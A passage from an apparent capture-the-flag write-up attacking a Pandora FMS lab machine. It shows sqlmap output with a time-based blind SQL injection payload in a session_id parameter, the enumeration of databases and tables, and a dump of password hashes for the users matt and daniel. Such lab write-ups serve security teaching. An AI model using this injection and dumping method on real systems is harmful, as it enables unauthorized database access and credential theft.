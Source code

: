         Type: time-based blind
        Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
        Payload: session_id=1' AND (SELECT 9955 FROM (SELECT(SLEEP(5)))lBOL)-- GqOs
    ---
    [15:03:59] [INFO] the back-end DBMS is MySQL
    back-end DBMS: MySQL >= 5.0 (MariaDB fork)  
    ...[snip]...
    

`--dbs` shows two databases:

    
    
    available databases [2]:
    [*] information_schema
    [*] pandora
    

`-D pandora --tables` shows 178 (!) tables:

    
    
    Database: pandora
    [178 tables]                                  
    +------------------------------------+
    | taddress                           |
    | taddress_agent                     |             
    | tagent_access                      |
    | tagent_custom_data                 |
    | tagent_custom_fields               |
    | tagent_custom_fields_filter        |
    ...[snip]...
    

### Session as matt

#### Password Fails

Looking though the table names, there’s one called `tpassword_history`, which
I’ll dump with `-D pandora -T tpassword_history --dump`:

    
    
    Database: pandora
    Table: tpassword_history
    [2 entries]
    +---------+---------+---------------------+----------------------------------+---------------------+
    | id_pass | id_user | date_end            | password                         | date_begin          |
    +---------+---------+---------------------+----------------------------------+---------------------+
    | 1       | matt    | 0000-00-00 00:00:00 | f655f807365b6dc602b31ab3d6d43acc | 2021-06-11 17:28:54 |
    | 2       | daniel  | 0000-00-00 00:00:00 | 76323c174bd49ffbbdedf678f6cc89a6 | 2021-06-17 00:11:54 |
    +---------+---------+---------------------+----------------------------------+---------------------+
    